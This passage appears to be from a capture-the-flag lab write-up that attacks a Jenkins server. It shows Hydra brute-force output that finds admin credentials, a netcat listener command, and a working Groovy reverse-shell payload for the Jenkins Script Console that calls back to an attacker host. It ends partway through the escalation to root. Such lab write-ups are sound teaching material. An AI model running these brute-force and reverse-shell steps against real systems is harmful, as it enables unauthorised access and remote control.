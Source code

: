 Results:

```text
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-10-03 03:30:55
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://127.0.0.1:1234/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password
[STATUS] 418.00 tries/min, 418 tries in 00:01h, 14343981 to do in 571:56h, 16 active
[1234][http-post-form] host: 127.0.0.1   login: admin   password: spongebob
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-10-03 03:32:15
```

Log in to Jenkins with the found username and password.

## Reverse shell in docker

Start a listener:

    sudo nc -nlvp 5555

In Jenkins, go to "Manage Jenkins > Script Console". Enter (change the necessary parameters) this awesome code from 
[Abusing Jenkins Groovy Script Console to get Shell](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6):

```text
String host="10.9.1.53";

int port=5555;

String cmd="cmd.exe";

Process p=new 
ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

And execute. In the listener, we now have a reverse shell in docker. In `/opt` is a message 
`note.txt` for Aubreanna. :)

Go back to the initial SSH connection as aubreanna, and get the root flag:

    $ su root
    Password: 
    # cd /root/
